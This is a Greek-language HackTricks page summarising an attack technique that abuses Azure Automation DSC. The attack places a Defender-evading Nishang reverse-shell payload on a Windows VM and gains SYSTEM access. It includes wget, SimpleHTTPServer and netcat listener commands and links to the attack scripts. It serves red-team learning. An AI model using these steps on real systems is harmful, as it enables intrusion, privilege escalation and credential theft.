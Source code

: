 # Az - Επικίνδυνη Ρυθμιστική Κατάσταση

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}

**Ελέγξτε την πλήρη ανάρτηση στο: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Σύνοψη της Προετοιμασίας της Υποδομής του Απομακρυσμένου Διακομιστή (C2) και των Βημάτων

#### Επισκόπηση
Η διαδικασία περιλαμβάνει τη δημιουργία μιας υποδομής απομακρυσμένου διακομιστή για τη φιλοξενία ενός τροποποιημένου φορτίου Nishang `Invoke-PowerShellTcp.ps1`, με την ονομασία `RevPS.ps1`, σχεδιασμένο να παρακάμψει τον Windows Defender. Το φορτίο εξυπηρετείται από μια μηχανή Kali Linux με IP `40.84.7.74` χρησιμοποιώντας ένα απλό διακομιστή HTTP Python. Η λειτουργία εκτελείται μέσω αρκετών βημάτων:

#### Βήμα 1 — Δημιουργία Αρχείων
- **Απαιτούμενα Αρχεία:** Χρειάζονται δύο scripts PowerShell:
1. `reverse_shell_config.ps1`: Ένα αρχείο Διαμόρφωσης Επιθυμητής Κατάστασης (DSC) που ανακτά και εκτελεί το φορτίο. Είναι διαθέσιμο από το [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Ένα script για τη δημοσίευση της διαμόρφωσης στο VM, διαθέσιμο στο [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Προσαρμογή:** Οι μεταβλητές και οι παράμετροι σε αυτά τα αρχεία πρέπει να προσαρμοστούν στο συγκεκριμένο περιβάλλον του χρήστη, συμπεριλαμβανομένων των ονομάτων πόρων, των διαδρομών αρχείων και των αναγνωριστικών διακομιστή/φορτίου.

#### Βήμα 2 — Συμπίεση του Αρχείου Διαμόρφωσης
- Το `reverse_shell_config.ps1` συμπιέζεται σε ένα αρχείο `.zip`, καθιστώντας το έτοιμο για μεταφορά στο Λογαριασμό Αποθήκευσης του Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Βήμα 3 — Ορισμός Πλαισίου Αποθήκευσης & Μεταφόρτωση
- Το συμπιεσμένο αρχείο διαμόρφωσης μεταφορτώνεται σε ένα προκαθορισμένο δοχείο αποθήκευσης Azure, azure-pentest, χρησιμοποιώντας το cmdlet Set-AzStorageBlobContent του Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Βήμα 4 — Προετοιμασία του Kali Box
- Ο διακομιστής Kali κατεβάζει το φορτίο RevPS.ps1 από ένα αποθετήριο στο GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Το σενάριο επεξεργάζεται για να καθορίσει το στόχο της εικονικής μηχανής Windows και τη θύρα για το αντίστροφο κέλυφος.

#### Βήμα 5 — Δημοσίευση Αρχείου Διαμόρφωσης
- Το αρχείο διαμόρφωσης εκτελείται, με αποτέλεσμα το σενάριο αντίστροφου κελύφους να αναπτύσσεται στην καθορισμένη τοποθεσία στην εικονική μηχανή Windows.

#### Βήμα 6 — Φιλοξενία Φορτίου και Ρύθμιση Ακροατή
- Ένας Python SimpleHTTPServer ξεκινά για να φιλοξενήσει το φορτίο, μαζί με έναν ακροατή Netcat για την καταγραφή εισερχόμενων συνδέσεων.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Η προγραμματισμένη εργασία εκτελεί το φορτίο, επιτυγχάνοντας προνόμια επιπέδου SYSTEM.

#### Συμπέρασμα

Η επιτυχής εκτέλεση αυτής της διαδικασίας ανοίγει πολλές δυνατότητες για περαιτέρω ενέργειες, όπως απορρόφηση διαπιστευτήρων ή επέκταση της επίθεσης σε πολλά VMs. Ο οδηγός ενθαρρύνει τη συνεχή μάθηση και δημιουργικότητα στον τομέα του Azure Automation DSC.

{% hint style="success" %}
Μάθε & εξάσκησε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθε & εξάσκησε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Συμμετέχετε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε κόλπα χάκερ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}
